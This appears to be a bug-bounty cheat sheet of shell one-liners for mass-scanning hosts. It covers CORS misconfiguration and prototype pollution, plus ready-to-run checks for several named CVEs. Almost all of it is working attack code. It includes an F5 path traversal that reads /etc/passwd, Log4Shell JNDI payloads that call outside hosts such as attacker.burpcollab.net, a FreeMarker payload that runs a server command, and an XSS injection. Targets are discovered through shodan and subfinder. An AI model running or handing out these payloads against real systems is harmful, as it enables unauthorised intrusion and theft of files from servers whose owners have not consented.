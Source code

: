 ## CORS:
```
gau "http://target.com" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```
---------------
## Prototype Pollution:
```
subfinder -d target.com -all -silent | httpx -silent -threads 300 | anew -q alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```
-------------
## CVEs:
### CVE-2020-5902:
```
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```
### CVE-2020-3452:
```
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```
### CVE-2021-44228:
```
cat subdomains.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:ldap://log4j.requestcatcher.com/a}" -H "X-Api-Version: ${jndi:ldap://log4j.requestcatcher.com/a}" -H "User-Agent: ${jndi:ldap://log4j.requestcatcher.com/a}";done
```
```
cat urls.txt | sed `s/https:///` | xargs -I {} echo `{}/${jndi:ldap://{}attacker.burpcollab.net}` >> lo4j.txt
```
### CVE-2022-0378:
```
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```
### CVE-2022-22954:
```
cat urls.txt | while read h do ; do curl -sk --path-as-is “$h/catalog-portal/ui/oauth/verify?error=&deviceUdid=${"freemarker.template.utility.Execute"?new()("cat /etc/hosts")}”| grep "context" && echo "$h\033[0;31mV\n"|| echo "$h \033[0;32mN\n";done
```
### CVE-2022-41040:
```
ffuf -w "urls.txt:URL" -u "https://URL/autodiscover/autodiscover.json?@URL/&Email=autodiscover/autodiscover.json%3f@URL" -mr "IIS Web Core" -r
```
---------
## RCE:
```
```